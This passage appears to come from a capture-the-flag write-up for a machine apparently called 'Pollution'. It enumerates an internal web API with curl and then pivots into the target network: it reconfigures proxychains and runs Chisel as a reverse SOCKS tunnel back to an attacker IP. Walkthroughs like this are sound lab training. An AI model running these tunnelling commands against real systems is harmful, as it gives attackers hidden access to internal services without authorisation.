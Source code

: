 Port *TCP/3000* and *TCP/9000* are listening on localhost. Let’s enumerate the first one.

<img src="/assets/img/pollution/image 27.png" alt="image 27.png" style="width:800px;">

We can interact with the web application using *curl*.

```bash
$ curl localhost:3000
{"Status":"Ok","Message":"Read documentation from api in /documentation"}

$ curl localhost:3000/documentation
{"Documentation":{"Routes":{"/":{"Methods":"GET","Params":null},"/auth/register":{"Methods":"POST","Params":{"username":"username","password":"password"}},"/auth/login":{"Methods":"POST","Params":{"username":"username","password":"password"}},"/client":{"Methods":"GET","Params":null},"/admin/messages":{"Methods":"POST","Params":{"id":"messageid"}},"/admin/messages/send":{"Methods":"POST","Params":{"text":"message text"}}}}}
```

Updated the */etc/proxychains4.conf* file in the PwnBox and started the *Chisel* server.

```bash
head -n -2 /etc/proxychains4.conf | sudo tee /etc/proxychains4.conf
echo 'socks5 127.0.0.1 1080' | sudo tee -a /etc/proxychains4.conf

sudo ./chisel_1.10.1_linux_amd64 server -p 1234 --reverse --socks5
```

Uploaded the binary and forwarded the service as follows.

```bash
$ ./chisel_1.10.1_linux_amd64 client 10.10.14.171:1234 R:3000:127.0.0.1:3000
```

We can now access the internal webapp.

<img src="/assets/img/pollution/image 28.png" alt="image 28.png" style="width:800px;">

